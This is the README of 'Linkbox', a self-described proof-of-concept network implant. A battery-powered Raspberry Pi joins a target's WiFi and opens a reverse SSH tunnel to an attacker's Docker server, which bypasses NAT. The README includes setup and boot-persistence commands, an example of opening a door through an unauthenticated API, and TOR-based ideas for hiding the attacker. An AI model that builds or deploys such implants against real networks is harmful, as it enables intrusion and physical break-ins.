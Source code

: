 This is just a proof of concept for educational purposes.

------

# Linkbox
#### Preamble
Linkbox is a small security proof-of-concept project.
When attempting to compromise any system, one of the most crucial actions is gaining access to its network or a network associated with it. Once an attacker has gained access to a network, he is free to perform attacks on all systems within the network, until he is either detected by a network administrator and removed from the network forcefully or reached his goal.

#### Company Networks
Generally, most WiFi networks will be protected by some means, using the WEP, WPA or WPA2 protocols. While there are tools for attacking networks protected by these protocols (or devices within them), this is outside of the scope of this demonstration. However, with a bit of social engineering, WiFi network passwords are one of the easiest ressources to accquire in this whole process. With this in mind, we will design linkbox to connect to the network with the credentials it has been given.

#### Network accessibility
A lot of company networks are accessible via VPN for allowing employees to work from remote locations, log in during service routines, etc. For networks that are easily accessible from the outside, linkbox does not create a significant benefit, if the attacker has already accquired the credentials of a user account. However, if no user credentials are known, linkbox can still be placed inside the network and used as an entrypoint for scoping out other attack vectors.

---

Linkbox consists of a hardware part, which is a raspberry pi strapped to a battery pack and a server part, which is an Alpine Linux docker container that can run anywhere. 

---




## Workflow
On boot, the raspberry pi will connect to the WiFi network it has been configured to using [wpa_supplicant](https://raspberrypihq.com/how-to-connect-your-raspberry-pi-to-wifi/). It will then go on to try and open a reverse ssh tunnel to the server, binding its local port `22` to the server's port `10022 `, using the `private_key` file containing the private key to the public key stored on the server.  

Once the reverse ssh connection is established, a user can simply use the `linkbox` binary inside the server container to connect to the local port `10022` via ssh, using the `private_key` file containing the private key to the public key stored on the raspberry pi.

In short:
1. Linkbox server container is started on public host
2. Linkbox client boots up
3. Linkbox client connects to WiFi network
4. Linkbox client establishes reverse ssh connection
5. User on the Linkbox server container uses reverse ssh tunnel
6. :tada:

The user now has an open SSH tunnel to a device in the target network, bypassing its NAT. (Of course firewalls with deep packet inspection could still block this, but that's another story).

Obviously, the user is free to do whatever he likes. For an example scenario, a german manufacturer of door communication systems exposes an HTTP API that allows third party devices to open the door without further authentication. Any device in the local network can use this endpoint. **So we are just one `curl` command away from opening the front door.**




## Project structure
The following files will be used on client and server respectively.
```
├── client/
│   ├── authorized_keys -> /home/pi/.ssh/authorized_keys
│   ├── private_key -> /home/pi/private_key
│ 
├── server/
│   ├── authorized_keys -> /home/linkbox/.ssh/authorized_keys
│   ├── private_key -> /home/linkbox/private_key
│   ├── entrypoint.sh -> /usr/local/bin/entrypoint.sh
│   ├── linkbox -> /usr/local/bin/linkbox
```




## Usage
Both, the server and client use case assume you have cloned this repository and operate from its root directory.

#### Linkbox Server
```bash
# Building the server container
docker build --no-cache --tag linkbox-server ./server

# Running the server container
docker run --rm -p 10666:22 -it linkbox-server /bin/bash
```


#### Linkbox Client
```bash
# Run automated setup to connect
./linkbox.sh <server-ip>

# For its actual use case, linkbox should run once it has
# booted, so we can add it to /etc/rc.local before `exit 0`
cd <path/to/repo> && bash linkbox.sh <server-ip>
```




## Possible improvements
Linkbox is a simple proof-of-concept, it is not intended to actually be used in any malicious scenario, thus, we omitted a lot of key features here. For an actual attack, linkbox could be extended to:
* Persist keypairs across container restarts to ensure safe connection to linkbox server
* Persist keypairs across container restarts to ensure safe connection to linkbox client
* Use TOR for hosting the server container as a hidden service to hide our identity
* Use TOR for routing requests from linkbox so the traffic is obfuscated
* Add retries and timeouts to all operations
* Add error reporting and local logging in case of failure
